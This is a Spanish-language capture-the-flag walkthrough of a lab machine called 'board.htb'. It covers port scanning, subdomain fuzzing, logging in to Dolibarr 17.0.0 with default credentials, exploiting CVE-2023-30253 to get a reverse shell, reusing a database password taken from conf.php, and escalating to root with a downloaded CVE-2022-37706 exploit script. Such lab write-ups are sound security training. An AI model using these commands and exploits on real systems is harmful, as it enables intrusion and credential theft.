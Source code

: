 Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 10.10.11.11 -oN escaneo
```
![alt text](image.png)

Vemos que tiene el puerto 80 con un servicio apache, esto nos indica que está corriendo una web. Vamos a ver que esconde.
![alt text](image-1.png)

Una vez tenemos la web, vamos a realizar un fuzzing de esta para ver si podemos encontrar alguna pista por donde poder tirar.
```
gobuster dir -u http://10.10.11.11 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,txt
```
![alt text](image-2.png)

Vemos que no ha encontrado nada, ahora vamos a ralizar un fuzzing de subdominios para per si nos mustra algo aparte.
```
ffuf -w ../../../../Downloads/subdomains-top1million-110000.txt -u http://board.htb/ -H 'Host: FUZZ.board.htb' -mc 200,302 -fl 518
```
![alt text](image-3.png)

Ahora que ya tenemos el subdominio, vamos a ver que esconde.
![alt text](image-4.png)

Vemos que nos dice el nombre de la plataforma y la versión, `Dolibarr 17.0.0`. Tras buscar en google el usuario y la contraseña por defecto, he encontrado que es `admin` y `admin`. Seguidamente he buscado si teneia alguna vulnerabilidad esta versión y he encontrado un CVE y un exploit.
```
CVE-2023-30253

Link exploit:
https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253.git
```

Una vez no tenemos localizado, vamos a clonar el repositorio.
```
git clone https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253.git
```
![alt text](image-5.png)

Una vez lo hemos clonado, vamos a explotar la vulnerabilidad. En una terminal nos pondremos a la escucha por un puerto.
```
nc -lnvp 6969
```
![alt text](image-6.png)

En otra terminal vamos a ejecutar el exploit tal y como nos indica el repositorio.
```
python3 exploit.py http://crm.board.htb admin admin 10.10.14.90 6969
```
![alt text](image-7.png)

Tras enumerar bastante rato todo el sistema operativo, he encontrado un archivo llamado conf.php en la ruta `/var/www/html/crm.board.htb/htdocs/conf` que nos muestra las claves de un servicio mysql.
```
user: dolibarrowner
password: serverfun2$2023!!
```
![alt text](image-8.png)

Ahora vamos a entrar en el servicio mysql.
```
mysql -D dolibarr -u dolibarrowner -p
password: serverfun2$2023!!
```
![alt text](image-9.png)

Una vez estamos dentro del servicio mysql, vamos a buscar una tabla que empieze con el prefijo `llx_`como nos mostraba en la información.
```
use dolibarr;
show tables;
```
![alt text](image-10.png)

Me ha llamado la atencion la tabla `llx_user`, así que vamos a dumpera el contenido.
```
select login, pass_encoding, pass, pass_encripted from llx_user;
```
![alt text](image-11.png)

Vemos que hay una contraseña para la base de datos y la del admin, la vamos a cojer la de la base de datos.
```
su larisa
password: serverfun2$2023!!
```
![alt text](image-12.png)

Ahora vamos a buscar binarios que podemos explotar para llegar al usuario root.
```
find / -perm -u=s -type f 2>/dev/null
```
![alt text](image-13.png)

Vemos que el binario `enlightenment` lo podemos explotar ya que tiene una vulnerabilidad registrada.
```
CVE-2022-37706

Linx exploit:
https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit.git
```

Clonamos el repositorio.
```
git clone https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit.git
```
![alt text](image-14.png)

Una vez lo tenemos en nuestro equipo lo vamos a compartir en la máquina víctima para porderlo ejecutar.
```
máquina atacante:
python3 -m http.server 80
```
![alt text](image-15.png)

```
máquina víctima
wget http://10.10.14.90/exploit.sh
```
![alt text](image-16.png)

Ahora que tenemos el exploit, le daremos permisios de ejecución y lo ejecutaremos.
```
chmod +x exploit.sh
```
![alt text](image-17.png)

```
./exploit.sh
```
![alt text](image-18.png)

Una vez somos root, vamos a encontrar la flag que está en la carpeta `/root`.
![alt text](image-19.png)
